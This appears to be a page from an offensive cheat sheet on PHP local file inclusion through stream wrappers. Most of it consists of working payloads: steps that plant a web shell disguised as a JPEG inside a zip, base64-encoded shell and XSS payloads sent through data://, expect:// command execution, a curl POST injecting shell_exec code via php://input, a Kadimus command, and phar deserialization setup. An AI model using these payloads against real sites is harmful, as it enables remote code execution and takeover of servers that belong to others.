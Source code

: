 ### **Wrapper zip://**

```
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;
mv payload.zip shell.jpg;
rm payload.php

http://example.com/index.php?page=zip://shell.jpg%23payload.php
```

### **Wrapper data://**

```
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=
NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

Fun fact: you can trigger an XSS and bypass the Chrome Auditor with : `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

### **Wrapper expect://**

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### **Wrapper input://**

Specify your payload in the POST parameters, this can be done with a simple `curl` command.

```
curl -X POST --data "<?php echo shell_exec('id'); ?>" "https://example.com/index.php?page=php://input%00" -k -v
```

#### **Alternatively, Kadimus has a module to automate this attack.**

```
./kadimus -u "https://example.com/index.php?page=php://input%00"  -C '<?php echo shell_exec("id"); ?>' -T input
```

### **Wrapper phar://**

Create a phar file with a serialized object in its meta-data.

```
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```
